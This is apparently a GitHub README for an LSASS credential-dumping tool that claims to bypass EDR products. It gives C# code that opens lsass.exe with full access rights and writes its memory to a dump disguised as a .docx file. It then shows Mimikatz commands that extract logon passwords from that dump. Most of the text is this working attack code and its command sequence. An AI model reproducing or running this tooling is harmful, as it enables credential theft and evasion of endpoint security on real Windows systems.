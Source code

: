# Lsass-Dump-PS
The LsassDumper is a Mimikatz alternative tool used for credential dumping created to bypass EDR products.



# How to Use

* step 1: Edit the script: Chanage the path to the file and the file name (foo.docx).
```C#
 public static void RunMe(int procId)
        {
            string dumpFileName = "C:\\Users\\Username\\Desktop\\foo.docx";
            FileStream file = new FileStream(dumpFileName, FileMode.Create);
            IntPtr hProcess = OpenProcess((uint)0x001F0FFF, true, procId);
            bool res;
            MINIDUMP_EXCEPTION_INFORMATION info = new MINIDUMP_EXCEPTION_INFORMATION();
            res = MiniDumpWriteDump(hProcess, (uint)procId, file.SafeFileHandle.DangerousGetHandle(), 0002, ref info, IntPtr.Zero, IntPtr.Zero);
            if(res){
                Console.WriteLine("Created By Liav Gutman AKA PT-MasterMind :)");
            
            }else{
                Console.WriteLine("Something went wrong please try again");
            
            
            }
 
```
* step 2: Configre the `lsass.exe` process id and run the script (some cases `NT AUTHORITY\SYSTEM` is required).
```
 [GoodMod.Dump]::RunMe(16048)
```
* step 3: Load the dump file (foo.docx) to [Mimikatz](https://github.com/gentilkiwi/mimikatz) and done!
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::minidump liav.docx

mimikatz # sekurlsa::logonpasswords
 
```



